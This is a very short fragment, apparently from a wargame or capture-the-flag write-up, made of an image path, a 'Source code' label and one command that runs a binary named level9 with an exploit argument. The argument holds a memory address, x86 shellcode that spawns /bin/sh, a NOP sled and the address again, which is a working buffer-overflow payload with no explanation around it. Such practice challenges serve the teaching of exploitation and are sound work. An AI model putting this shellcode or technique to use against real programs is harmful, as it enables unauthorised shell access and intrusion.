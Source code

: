 ./level9 `python -c 'print "\x0c\xa0\x04\x08" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "\x90" * 80 + "\x0c\xa0\x04\x08"'`